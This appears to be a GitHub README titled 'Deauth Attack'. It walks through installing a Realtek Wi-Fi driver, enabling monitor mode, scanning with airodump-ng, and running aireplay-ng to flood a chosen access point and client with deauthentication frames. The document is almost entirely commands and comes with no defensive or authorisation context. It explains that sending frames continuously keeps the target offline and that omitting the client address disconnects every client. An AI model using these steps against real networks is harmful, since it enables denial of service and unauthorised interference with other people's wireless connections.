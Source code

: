 # Deauth Attack


## Commands used to setup the adapter
```
sudo apt update
sudo apt install bc
sudo rmmod r8188eu.ko
git clone https://github.com/aircrack-ng/rtl8188eus
cd rtl8188eus
sudo -i
echo "blacklist r8188eu" > "/etc/modprobe.d/realtek.conf"
exit
make
sudo make install
sudo modprobe 8188eu
```

## Commands to enable monitor mode after setting up
```
ifconfig wlan0 down
airmon-ng check kill
iwconfig wlan0 mode monitor
ifconfig wlan0 up
iwconfig
```

## Actions
```
airmon-ng
airmon-ng start wlan0
airodump-ng wlan0mon
airodump-ng -d "target's BSSID" -c "target's channel number" "wireless adapter monitor mode name"
airodump-ng -d 50:C7:BF:DC:4C:E8 -c 11 wlan0mon
aireplay-ng -0 0 -a 50:C7:BF:DC:4C:E8 -c E0:B5:2D:EA:18:A7 wlan0mon
```
#### * Aireplay command description
```
-0 means deauthentication.
 0 is the number of deauths to send 0 means send them continuously, you can send 10 if you want the target to disconnect and reconnect.
-a 50:C7:BF:DC:4C:E8 is the MAC address of the access point we are targeting.
-c E0:B5:2D:EA:18:A7 is the MAC address of the client to deauthenticate; if this is omitted then all clients are deauthenticated.
wlan0mon is the interface name.
```
